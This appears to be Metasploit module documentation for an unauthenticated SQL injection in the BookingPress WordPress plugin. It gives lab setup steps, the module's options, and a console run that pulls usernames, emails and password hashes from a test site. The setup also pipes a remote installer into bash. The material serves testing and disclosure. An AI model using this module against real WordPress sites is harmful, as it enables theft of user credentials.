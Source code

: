 ## Vulnerable Application

The BookingPress WordPress plugin before 1.0.11 fails to properly sanitize user supplied POST data before it is used in
a dynamically constructed SQL query via the bookingpress_front_get_category_services AJAX action (available to
unauthenticated users), leading to an unauthenticated SQL Injection.

### Setup
#### Ubuntu 20.04 with Docksal
Install Docksal:
```
sudo apt update
sudo apt install curl
bash <(curl -fsSL https://get.docksal.io)
sudo usermod -aG docker $USER
```

Reboot the VM (Docksal needs to be able to run `docker` without sudo)
```
msfuser@ubuntu:~$ fin project create
1. Name your project (lowercase alphanumeric, underscore, and hyphen): msf

2. What would you like to install?
   PHP based
    1.  Drupal 9 (Composer Version)
    2.  Drupal 9 (BLT Version)
    3.  Drupal 9
    4.  Drupal 7
    5.  Wordpress
    6.  Magento
    7. Laravel
    8. Symfony Skeleton
    9. Symfony WebApp
    10. Grav CMS
    11. Backdrop CMS

Go based
12. Hugo

JS based
13. Gatsby JS
14. Angular

HTML
15. Static HTML site

Custom
0. Custom git repository


Enter your choice (0-15): 5

Project folder:   /home/msfuser/msf
Project software: Wordpress
Source repo:      https://github.com/docksal/boilerplate-wordpress.git
Source branch:    <default>
Project URL:      http://msf.docksal

Do you wish to proceed? [y/n]: y

... 

Success: WordPress installed successfully.

real	0m10.112s
user	0m0.327s
sys	0m0.061s
Open http://msf-wp.docksal in your browser to verify the setup.
Admin panel: http://msf-wp.docksal/wp-admin. User/password: admin/admin  
 DONE!  Completed all initialization steps.
```

Download a vulnerable version of BookingPress
`wget https://downloads.wordpress.org/plugin/bookingpress-appointment-booking.1.0.10.zip`

Navigate to the wordpress admin page that was just setup by docksal:
`Admin panel: http://msf-wp.docksal/wp-admin. User/password: admin/admin`

Navigate to `Plugins` on the left hand menu, then select `Add New` then select `Upload Plugin`

Select `Browse...` and browse to the `bookingpress-appointment-booking.1.0.10.zip` file just downloaded, click `Install Now`

You should see the following output in the browser:
```
Istalling Plugin from uploaded file: bookingpress-appointment-booking.1.0.10.zip

Unpacking the package…

Installing the plugin…

Plugin installed successfully.
```

Click `Activate Plugin`

The BookingPress plugin has to be in use on the wordpress site in order to exploit the vulnerability:

1. Create a new "category" and associate it with a new "service" via the BookingPress admin menu
   (/wp-admin/admin.php?page=bookingpress_services)
1. Create a new page on the wordpress site that you've just set up by clicking `+ New` at the top of the screen and then
   select `Page` from the dropdown.
1. Paste `[bookingpress_form]` on the new page and click `publish`
1. Navigate to `/bookingpress/` and you should see BookPress running with the Category / Service you created in step 1.

## Options

### BOOKING_PRESS_PAGE

The webpage that bookingPress is running on. Example: `/bookingpress/`

## Verification Steps

1. Start msfconsole
1. Do: ``option
1. Set the options
1. Run the module

## Scenarios
### Booking Press 1.0.10, Wordpress Running Via Docksal, Ubuntu 20.04
```
msf6 > use gather/wp_bookingpress_category_services_sqli
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set rhosts localhost
rhosts => localhost
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set rport 8000
rport => 8000
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Found 5 users in the database
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username       Email                         Hash
 --------       -----                         ----
 admin          admin@admin.com               $P$BfxUckldN6AiHPD0BK6jg58se2b.aL.
 hackerman      hackerman@hacktheworld.io     $P$BESfz7bqSOY8VkUfuYXAZ/bT5E36ww/
 mr_metasploit  mr_metasploit@metaslpoit.org  $P$BDb8pIfym5dS6WTnNU8vU5Uk6i89fk.
 msfuser        msfuser@rapid7.com            $P$BpITVDPiqOZ7fyQbI5g9rsgUvZQFBd1
 todd           todd@toddtown.com             $P$BnlpkVgxGFWnmvdDQ3JStgpIx8LMFj0

[*] Auxiliary module execution completed
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set AutoCheck false
AutoCheck => false
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > run

[!] AutoCheck is disabled, proceeding with exploitation
[*] Found 5 users in the database
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username       Email                         Hash
 --------       -----                         ----
 admin          admin@admin.com               $P$BfxUckldN6AiHPD0BK6jg58se2b.aL.
 hackerman      hackerman@hacktheworld.io     $P$BESfz7bqSOY8VkUfuYXAZ/bT5E36ww/
 mr_metasploit  mr_metasploit@metaslpoit.org  $P$BDb8pIfym5dS6WTnNU8vU5Uk6i89fk.
 msfuser        msfuser@rapid7.com            $P$BpITVDPiqOZ7fyQbI5g9rsgUvZQFBd1
 todd           todd@toddtown.com             $P$BnlpkVgxGFWnmvdDQ3JStgpIx8LMFj0

[*] Auxiliary module execution completed
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) >
```
